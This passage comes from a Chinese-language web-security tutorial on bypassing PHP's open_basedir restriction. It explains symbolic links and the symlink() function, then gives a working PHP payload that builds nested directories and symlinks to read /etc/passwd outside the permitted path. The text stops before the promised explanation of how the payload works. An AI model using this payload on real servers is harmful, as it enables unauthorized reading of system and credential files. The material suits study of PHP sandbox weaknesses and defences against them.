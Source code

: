 ![img](assets/image-20231120130330772.png)

至于其他的命令执行函数可自行尝试。

但是一般情况下，system()等命令执行函数可能会被disable_functions给禁用掉，因此运用到的场景可能并不多。

## 0x03 利用symlink()函数Bypass

### 符号链接

> 符号链接又叫软链接，是一类特殊的文件，这个文件包含了另一个文件的路径名(绝对路径或者相对路径)。路径可以是任意文件或目录，可以链接不同文件系统的文件。在对符号文件进行读或写操作的时候，系统会自动把该操作转换为对源文件的操作，但删除链接文件时，系统仅仅删除链接文件，而不删除源文件本身。

### symlink()函数

(PHP 4, PHP 5, PHP 7)

symlink()函数创建一个从指定名称连接的现存目标文件开始的符号连接。如果成功，该函数返回TRUE；如果失败，则返回FALSE。

```
symlink ( string $target , string $link ) : bool
```

| 参数   | 描述               |
| ------ | ------------------ |
| target | 必需。连接的目标。 |
| link   | 必需。连接的名称。 |

当然一般情况下这个target是受限于open_basedir的。

### Bypass

先给出payload，原理在后面说明，这里需要跨几层目录就需要创建几层目录：

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","7ea");
symlink("7ea/../../../../etc/passwd","exp");
```